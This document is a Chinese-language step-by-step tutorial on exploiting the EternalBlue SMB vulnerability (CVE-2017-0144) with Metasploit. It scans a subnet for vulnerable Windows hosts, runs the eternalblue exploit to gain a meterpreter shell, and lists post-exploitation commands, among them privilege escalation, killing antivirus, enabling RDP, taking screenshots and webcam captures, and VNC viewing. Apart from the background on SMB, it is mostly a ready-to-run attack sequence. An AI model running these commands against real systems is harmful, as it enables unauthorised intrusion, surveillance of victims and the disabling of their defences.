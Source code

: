 # **一、 环境准备**

1 一台Windows电脑

（可以使用虚拟机代替）

### 2 Metasploit任意平台

  可以是Windows版，可以是kali自带版

# **二、** CVE-2017-0144 介绍

1.何为CVE-2017-0144？

​    CVE-2017-0144 既 永恒之蓝最早爆发于2017年4月14日晚，是一种利用**Windows系统的SMB协议漏洞**来获取系统的最高权限，以此来控制被入侵的计算机。甚至于2017年5月12日， 不法分子通过改造“永恒之蓝”制作了勒索病毒，使全世界大范围内遭受了勒索病毒，甚至波及到学校、大型企业、政府等机构，只能通过支付高额的赎金才能恢复出文件。

2.什么是SMB协议？

 SMB是一个协议服务器信息块，它是一种客户机/服务器、请求/响应协议，通过SMB协议可以在计算机间**共享**文件、打印机、命名管道等资源，电脑上的网上邻居就是靠SMB实现的；SMB协议工作在应用层和会话层，可以用在TCP/IP协议之上，SMB使用**TCP139**端口和**TCP445**端口。

3.SMB工作原理是什么？

   （1）：首先客户端发送一个SMB negport 请求数据报，，并列出它所支持的所有SMB的协议版本。服务器收到请求消息后响应请求，并列出希望使用的SMB协议版本。如果没有可以使用的协议版本则返回0XFFFFH，结束通信。

   （2）：协议确定后，客户端进程向服务器发起一个用户或共享的认证，这个过程是通过发送SessetupX请求数据包实现的。客户端发送一对用户名和密码或一个简单密码到服务器，然后通过服务器发送一个SessetupX应答数据包来允许或拒绝本次连接。

   （3）：当客户端和服务器完成了磋商和认证之后，它会发送一个Tcon或TconX SMB数据报并列出它想访问的网络资源的名称，之后会发送一个TconX应答数据报以表示此次连接是否接收或拒绝。

   （4）：连接到相应资源后，SMB客户端就能够通过open SMB打开一个文件，通过read SMB读取文件，通过write SMB写入文件，通过close SMB关闭文件。

# **三、原理**

​	永恒之蓝是在Windows的SMB服务处理**SMB v1请求时发生的漏洞**，这个漏洞导致攻击者在目标系统上可以执行任意代码。

​	通过永恒之蓝漏洞会**扫描开放445文件共享端口的Windows机器**，无需用户任何操作，只要开机上网，不法分子就能在电脑和服务器中植入勒索软件、远程控制木马、虚拟货币挖矿机等恶意程序。

 

# **四、CVE-2017-0144 利用方法**

1  启动Metasploit

终端里输入 `msfconsole`

2 查询利用模块

终端里输入 `search ms17_010`

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641450314000/960ae38818084260be8eb69e589edba4.png)

3 使用**探测**模块

终端内输入  `use auxiliary/scanner/smb/smb_ms17_010`

4 设置探测范围

终端内输入  `show options`   

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641450314000/ab7ca3d4ba774677bc2a239c420349f7.png)

上图中我们可以看到是需要配置一个RHOSTS  

终端内输入  `set rhosts  192.168.70.0/24`  

（设置扫描当前网段  可以通过 在终端内输入ip a 查看）

也可以设置范围 

`set rhosts 192.168.70.1-192.168.70.20`

5 开始探测

终端内输入  `run` 执行探测

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641450314000/7df1f73ea464404091de9c13d885c139.png)

根据上图我们可以看到 192.168.70.13 这个IP的机器可能存在漏洞

6 开始漏洞利用

开始利用首先在终端里输入
`search ms17_010`

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641450314000/8bf107d057a34676984a5d5e8b9bae73.png)
使用 模块
`use exploit/windows/smb/ms17_010_eternalblue`

7 配置利用模块

配置模块
`show options`   
配置靶机
`set rhost 192.168.70.13`  这里IP填第五步探测到的IP

8 执行攻击

在终端里输入  `run`


![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641450314000/8a0c81062f424c7682a329503a315313.png)

知道咱们看到 win  则攻击成功 拿到meterpreter 

 

9 后渗透操作

1. 查看进程：`ps`

2. 查看当前进程号：getpid

3. 查看系统信息：`sysinfo`

4. 查看目标机是否为虚拟机：run post/windows/gather/checkvm

5. 查看完整网络设置：route

6. 查看当前权限：`getuid`

7. 自动提权：`getsystem`

8. 关闭杀毒软件：run post/windows/manage/killav

9. 启动远程桌面协议：run post/windows/manage/enable_rdp

10. 列举当前登录的用户：

    `run post/windows/gather/enum_logged_on_users`

11. 查看当前应用程序：run post/windows/gather/enum_applications

12. 抓取目标机的屏幕截图：`load espia` ； `screengrab`

13. 抓取摄像头的照片：webcam_snap

14. 查看当前处于目标机的那个目录：`pwd`

15. 查看当前攻击机目录：getlwd

16. 查看屏幕：`run vnc`

